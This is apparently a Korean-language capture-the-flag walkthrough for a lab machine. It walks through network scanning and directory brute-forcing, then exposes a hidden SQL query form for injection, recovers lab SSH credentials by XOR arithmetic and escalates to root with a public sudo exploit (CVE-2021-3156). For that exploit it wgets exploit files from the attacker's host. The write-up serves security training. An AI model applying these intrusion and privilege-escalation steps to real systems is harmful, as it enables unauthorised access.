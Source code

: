 # XSS-CTF
2025-04-18 XSS-CTF  Walkthrough

네트워크 1-브리지 2-호스트

kali: 192.168.56.105
victim:192.168.56.143

nmap 192.168.56.0/24

nmap -A -sS -sC -p- 192.168.56.143


kali firefox에서 http://192.168.56.143 접속	//apache2 기본 페이지


## Scan

```
gobuster dir -u http://[xss-ctf ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,bak
```
/index.php  /index.html  /list.php  /add.php

## /index.php

!!!!!!!
들어가보았지만 Not Found가 뜬다. 그래서 web source페이지를 보았다.

!!!!!!!

/H10000.txt
!!!!!!!!
H10000 값


## /list.php

index.php에서 Not Found가 떠서 list.php를 들어가면 다음과 같은 글이 작성되어있다

!!!!!!!!!
M1,M2,M3,M4 값이 중요하기 때문에 복붙

1번 게시글 삭제 후 /index.php 를 다시 들어가면 정상적인 페이지가 뜬다는 것을 확인할 수 있다
!!!!!!!!!!
!!!!!!!!!!

## /add.php

http://192.168.56.143/add.php에서 View Source Code를 들어가서 보면 쿼리 작성폼이라는 주석이있는 줄에 쿼리 작성 폼과 ID 조회하는 코드에 type=”hidden”이 되어 있는 것을 알 수 있다.

!!!!!!!!!!

개발자 도구 -F12
<!- -MySQL 쿼리 입력 폼 -- > 주석 확인
type=”hidden” 2개 확인 가능

!!!!!!!!!!!!!!!!!!!!!

type=”hidden” 삭제

type=”hidden” -> type=”submit” 변경


Mysql 쿼리 입력 부분 출력됨
!!!!!!!!!!!!!!!!!!!!!!!!

SQL Injection 공격 가능 – userID DB 확인 가능
!!!!!!!!!!!!!!!!!!!!
!!!!!!!!!!!!!!!!!!!!

## XOR 연산

XOR 변환기

/list.php 에서 얻은 M1,M2,M3,M4 값과 /H10000 에서 얻은 H10000 값으로 XOR 연산

이 과정은 총 2가지로 풀 수 있다.

1번 방법: 

192.168.56.143/index.php에서 다음과 같은 식을 제공하였다. 이때 P=Password다. 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ 

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5값을 구하면 M4를 통해 H9999를 구할 수 있다. H9999=M4⨁P 이후 M1을 이용하여 K를 구할 수 있다. 이때 UserID는 위의 SQL Injection으로 찾아낸 UserID 중 하나씩 다 대입하면 UserID=Ocean777Timewarp를 넣어서 계산하다보면 그럴듯한 K=secretpassword12값이 나온다. 그 다음 M2에서 serverID=M2⨁H9999를 구할 수 있다. serverID=cr0sss1tescr1pt9 이제 서버의 ID와 Password를 전부 찾았다.

2방법: 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ P

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5를 구한 후 M1⨁M2=userID⨁serverID가 나오고 SQL Injection으로 찾아낸 userID를 하나씩 대입하면 serverID= cr0sss1tescr1pt9가 나온다. 이렇게 하면 굳이 H9999값과 K값을 구하지 않아도 ServerID값을 구할 수 있다.


## SSH 접속

userID :
cr0sss1tescr1pt9
password :
df93ef64167b2334664ff59a5b8185f5

!!!!!!!!!!!!!!!!!!!!!!!!!!


## User Flag

!!!!!!!!!!!!!!


## Root Flag

root로 권한 상승 - sudoedit
!!!!!!!!!!!!!!!!

https://github.com/blasty/CVE-2021-3156  참조

- brute.sh , hax.c , lib.c 파일 생성

cr0sss1tescr1pt9 사용자는 vi,vim,nano 사용할 수 없다.

kali-root 계정에서 /var/www/html/ 디렉터리에 파일 생성 후, cr0sss1tescr1pt9 사용자 계정에서 wget으로 파일을 다운로드한다.
```
wget http://[kali ip]/brute.sh
```
```
wget http://[kali ip]/hax.c
```
```
wget http://[kali ip]/lib.c
```

https://github.com/blasty/CVE-2021-3156 - Makefile 참고
!!!!!!!!!!!!!!!







